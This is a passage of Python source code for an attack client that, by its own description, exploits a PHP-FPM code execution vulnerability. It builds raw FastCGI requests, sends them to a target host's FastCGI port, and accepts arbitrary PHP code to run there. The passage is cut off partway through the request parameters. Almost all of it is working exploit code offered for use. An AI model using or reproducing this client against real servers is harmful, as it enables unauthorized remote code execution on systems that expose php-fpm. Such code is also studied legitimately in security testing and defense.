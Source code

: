 ```python
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
    args = parser.parse_args()
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
```